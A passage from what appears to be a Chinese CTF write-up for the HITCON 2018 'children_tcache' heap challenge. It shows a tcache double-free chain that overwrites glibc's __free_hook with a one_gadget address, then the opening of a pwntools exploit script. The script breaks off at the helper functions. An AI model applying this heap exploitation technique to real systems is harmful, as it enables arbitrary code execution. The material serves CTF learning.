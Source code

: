 接下来我们通过触发`Double Free`来完成利用，和原来的`Chunk 1`大小相同的`Chunk`，此时，下标`0`和`2`的`chunk`将指向同一块内存，而`Glibc 2.27`中没有对`Tcache`中`Double Free`的检查，故我们可以很方便的完成利用链构造：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-093126.png)

```
creat(sh,0x78 ,'Chunk_1')
delete(sh,0)
delete(sh,2)
creat(sh,0x78,p64(libc.symbols['__free_hook']))
creat(sh,0x78,'Chunk_1')
creat(sh,0x78,p64(libc.address + 0x4f322))
delete(sh,3)
```

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

HITCON_2018_children_tcache=ELF('./HITCON_2018_children_tcache', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./HITCON_2018_children_tcache")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./HITCON_2018_children_tcache")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
```